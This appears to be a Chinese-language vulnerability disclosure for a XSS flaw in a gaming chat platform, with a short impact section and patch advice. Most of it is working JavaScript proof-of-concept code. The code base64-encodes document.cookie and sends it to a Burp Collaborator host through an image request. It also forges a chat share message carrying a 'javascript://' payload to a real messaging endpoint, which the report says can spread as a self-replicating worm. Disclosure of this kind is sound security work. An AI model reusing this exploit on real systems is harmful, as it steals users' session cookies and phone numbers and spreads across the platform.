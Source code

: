         // 通过img src来向burpsuite collaborator url外送敏感新信息
        const justSend = async url => {
            var Img = new Image
            Img.src = url
        }

        // base64 加解密
        const encode = str => {
            var b64 = btoa(unescape(encodeURIComponent(str)))
            return b64
        }
        const decode = str => {
            var str = decodeURIComponent(escape(atob(str)));
            return str
        }
        //获取并发送cookie，可能带有手机号
        const sendCookie = () => {
            var encoded = encode(document.cookie)
            // send data
            justSend(api_burp + '?data=' + encoded)
        }

        // 发送xss payload
        const startSendLinkMessage = async function () {

            // 链接，设置fromUid为攻击者的UID
            var payload_json = { "serverId": "0149881871", "channelId": "1459515", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": { "attachType": "link", "attachData": { "title": "p", "url": "javascript://%0avar a=\"163.com\";alert(document.cookie);", "desc": "o", "icon": "https://baidu.com/p.png" } }, "contentType": "SHARE" }

            var headers = setHeaderDs(JSON.stringify(payload_json))
            res = await myPostFetch('https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg', headers, payload_json)
        }
        // 判断pc端还是手机端
        const isMobile = /iPhone|iPad|iPod|Android/i.test(navigator.userAgent);
        if (isMobile) {
            /* your code here */
        } else {
            //web端
            //伪造发分享消息
            startSendLinkMessage()
            //发送cookie
            sendCookie()
            
        }


## Impact
通过发送受诱惑的链接，诱导受害者点击，便可完成xss攻击。注意到大神平台多款游戏频道用户超过几十上百万，影响深远。
1. 攻击者可以在聊天群发送xss链接，用户点击后能够执行，大规模收集平台用户手机号和账号信息，造成敏感信息泄漏；
2. 攻击者可以在聊天群发送xss链接，用户点击后能够执行，伪造用户发消息等，制造XSS蠕虫，实现XSS帖子的自我复制，扩大影响。

## Patch advice
1. 对用户的分享链接进行过滤

